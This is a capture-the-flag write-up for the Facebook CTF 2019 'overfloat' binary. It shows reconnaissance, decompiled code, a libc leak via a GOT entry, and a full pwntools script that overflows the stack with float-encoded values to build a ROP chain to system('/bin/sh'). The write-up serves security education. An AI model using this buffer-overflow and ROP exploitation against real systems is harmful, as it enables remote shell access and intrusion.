



# Overfloat

This is a pwnable from Facebook CTF 2019!

### Reconnaissance

Here's some initial interaction with the binary:

```
ctf@ctf:~$ nc challenges.fbctf.com 1341
                                 _ .--.
                                ( `    )
                             .-'      `--,
                  _..----.. (             )`-.
                .'_|` _|` _|(  .__,           )
               /_|  _|  _|  _(        (_,  .-'
              ;|  _|  _|  _|  '-'__,--'`--'
              | _|  _|  _|  _| |
          _   ||  _|  _|  _|  _|
        _( `--.\_|  _|  _|  _|/
     .-'       )--,|  _|  _|.`
    (__, (_      ) )_|  _| /
      `-.__.\ _,--'\|__|__/
                    ;____;
                     \YT/
                      ||
                     |""|
                     '=='

WHERE WOULD YOU LIKE TO GO?
LAT[0]: 45
LON[0]: 70
LAT[1]: 60
LON[1]: 80
LAT[2]: 45
LON[2]: 70
LAT[3]:
LON[3]:
LAT[4]:
LON[4]:
LAT[5]:
LON[5]:
LAT[6]:
LON[6]:
LAT[7]:
LON[7]:
LAT[8]:
LON[8]:
LAT[9]:
LON[9]: -40
LAT[0]: -20Too Slow! Sorry :(
```

This is a 64-bit Linux ELF binary. `checksec` indicates:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   overfloat
```

There's no PIE or canary, so this feels like a standard ROP problem. They give me the libc version running on the server. So, it sounds like I need to leak a libc address if I can, to be able to ROP this problem.

In a few minutes I figured this one out, as it was not too difficult. Here's the disassembled code from Ghidra:

```
void chart_course(long lParm1)

{
  int iVar1;
  uint uVar2;
  double dVar3;
  char local_78 [104];
  float local_10;
  uint local_c;

  local_c = 0;
  do {
    if ((local_c & 1) == 0) {
      uVar2 = ((int)(local_c + (local_c >> 0x1f)) >> 1) % 10;
      printf("LAT[%d]: ",(ulong)uVar2,(ulong)uVar2);
    }
    else {
      uVar2 = ((int)(local_c + (local_c >> 0x1f)) >> 1) % 10;
      printf("LON[%d]: ",(ulong)uVar2,(ulong)uVar2,(ulong)uVar2);
    }
    fgets(local_78,100,stdin);
    iVar1 = strncmp(local_78,"done",4);
    if (iVar1 == 0) {
      if ((local_c & 1) == 0) {
        return;
      }
      puts("WHERES THE LONGITUDE?");
      local_c = local_c - 1;
    }
    else {
      dVar3 = atof(local_78);
      local_10 = (float)dVar3;
      memset(local_78,0,100);
      *(float *)(lParm1 + (long)(int)local_c * 4) = local_10;
    }
    local_c = local_c + 1;
  } while( true );
}
```
And here's `main`:
```
undefined8 main(void)

{
  undefined local_38 [48];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  alarm(0x1e);
  __sysv_signal(0xe,timeout);
  puts(
      "                                 _ .--.        \n                                ( `    )      \n                             .-\'      `--,     \n                  _..----.. (            )`-. \n                .\'_|` _|` _|(  .__,           )\n               /_|  _|  _|  _(       (_,  .-\' \n              ;|  _|  _|  _|  \'-\'__,--\'`--\'    \n              | _|  _| _|  _| |               \n          _   ||  _|  _|  _|  _|               \n        _( `--.\\_| _|  _|  _|/               \n     .-\'       )--,|  _|  _|.`                 \n    (__, (_     ) )_|  _| /                   \n      `-.__.\\ _,--\'\\|__|__/                  \n                   ;____;                     \n                     \\YT/                     \n                     ||                       \n                     |\"\"|                    \n                    \'==\'                      \n\nWHERE WOULD YOU LIKE TO GO?"
      );
  memset(local_38,0,0x28);
  chart_course(local_38);
  puts("BON VOYAGE!");
  return 0;
}
```

So it's pretty straightforward: 12 integers get read into a 48-byte buffer by means of the latitudes and longitudes. But I can send as many coordinates as I like, to overflow the buffer. So I just have to send my input as floats...overFLOAT. Ugh, the puns are terrible. Anyway, I can leak a GOT address by jumping to a `printf` statement with appropriate arguments, then I have access to all of `libc` for the ROP chain. `ROPGadget` shows that I can pop RDI and RSI:

```
0x0000000000400a83 : pop rdi ; ret
0x0000000000400a81 : pop rsi ; pop r15 ; ret
```

That's enough to get arguments to `printf` where they need to be, so I can leak a GOT address and get the location of `libc`. After leaking the `libc` address, I should be able to get my ROP chain to jump back to `main` and I'll be ready to ROP a shell.

### Developing the exploit

First I disabled the alarm in the local version of the `overfloat` binary. Then I tried reading floats in as doubles, and I realized that the assembly language is converting the double that gets read in into a single-precision float. So, I just generated floats to put on the stack as follows:

```
def hex_to_float_string(h):
    return str(struct.unpack('f',struct.pack('<I',h))[0])
```

So if I send `0x41414141` as the latitude and `0x42424242` as the longitude six times, the stack looks like this:



Here I'm about to overwrite the return address. Great! I'm ready to do the ROP chain.

I wrote two helper functions that would make my life easier by abstracting away some work: one that writes an eight-byte integer by sending two floats, and another that parses a payload eight bytes at a time.

To leak a `libc` address I used a gadget to pop a GOT table address into `%rdi`, then returned to the first call to `puts` in `main`:



`%rbp` gets dereferenced right after that, so I overwrote the old `%rbp` on the stack with an address in the `.bss` section in order for the program to not crash.

Great! Next, I'm ready for a second ROP chain. That was straightforward: I found `/bin/sh` and the address of `system()` in the provided `libc.so.6` file, then was almost able to get a shell but then segfaulted. The problem was that the offset for `%rsp` was not at a multiple of 16 bytes at the time that I was calling `system`, so I added one return to a `ret ;` gadget to my ROP chain and could get a shell!



And that was 100 points for the team. There were about 180 solves for this challenge out of about 1900 teams, so it was not particularly difficult.

Here's the exploit code, cleaned up slightly compared to the screenshot of the flag:

```
# Exploit-overfloat.py

from pwn import *
from time import sleep
from binascii import hexlify

def hex_to_float_string(h):
    return str(struct.unpack('f',struct.pack('<I',h))[0])

def send_lat_long(input1, input2):
	input_lat = hex_to_float_string(input1)
	input_long = hex_to_float_string(input2)
	p.recvuntil(': ')
	p.send(input_lat + "\n")
	sleep(DELAY)
	p.recvuntil(': ')
	p.send(input_long + "\n")
	sleep(DELAY)

def rshift(val, n):
	if val > 0:
		return val >> n
	else:
		return (val + 0x100000000) >> n

def write_16_bytes(inputbytes):
	lower_bytes = inputbytes & 0xffffffff
	upper_bytes = int(rshift(inputbytes, 32))
	send_lat_long(lower_bytes, upper_bytes)

def send_payload(payload):
	for i in range(len(payload)/8):
		fragment = payload[(8*i):(8*i+8)]
		this_int = int(hexlify(fragment),16)
		write_16_bytes(this_int)

DELAY = 0.2

POP_RDI = 0x0000000000400a83 # pop rdi ; ret
POP_RSI = 0x0000000000400a81 # : pop rsi ; pop r15 ; ret

p = remote('challenges.fbctf.com', 1341)


## Leak the libc address for puts.
payload = ""
payload += "AAAABBBB"*6
payload += "\x00\x00\x00\x00\x00\x60\x29\x00" # bss
payload += "\x00\x00\x00\x00\x00\x40\x0a\x83" # POP_RDI
payload += "\x00\x00\x00\x00\x00\x60\x20\x20" # GOT table for puts
payload += "\x00\x00\x00\x00\x00\x40\x09\xe8" # return to puts
send_payload(payload)

p.send("done\n")
p.recvuntil("VOYAGE!\n")
libc_addr = p.recv(6)

LIBC_ADDR = u64(libc_addr + "\x00\x00")
log.info("libc address = " + hex(LIBC_ADDR) + "\n")

LIBC_OFFSET = 0x809c0
LIBC_BASE = LIBC_ADDR - LIBC_OFFSET
log.info("libc base = " + hex(LIBC_BASE) + "\n")

SYSTEM_OFFSET = 0x4f440
BINSH_OFFSET = 0x1b3e9a

SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
log.info("system is at " + hex(SYSTEM_ADDR) + "\n")

BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
RET_ADDR = 0x0000000000400661
log.info("binsh is at " + hex(BINSH_ADDR) + "\n")


## Here's the ROP chain
payload2 = ""
payload2 += "/bin/sh\x00"*6
payload2 += "\x00\x00\x00\x00\x00\x60\x29\x00" # bss
payload2 += "\x00\x00\x00\x00\x00\x40\x0a\x83" # POP_RDI
payload2 += p64(BINSH_ADDR)[::-1]
# I need an empty ret so that rsp is aligned with a multiple of 16 bytes
payload2 += p64(RET_ADDR)[::-1]
payload2 += p64(SYSTEM_ADDR)[::-1]
send_payload(payload2)
p.send("done\n")

p.interactive()
```


### Comparison to other approaches

[This write-up](https://made0x78.com/ctfs-fbctf19-overfloat/) took the same approach that I did, but also makes use of `OneGadget` when constructing the ROP chain. Generally speaking, that's a really useful and efficient approach, which I plan to use more in the future.
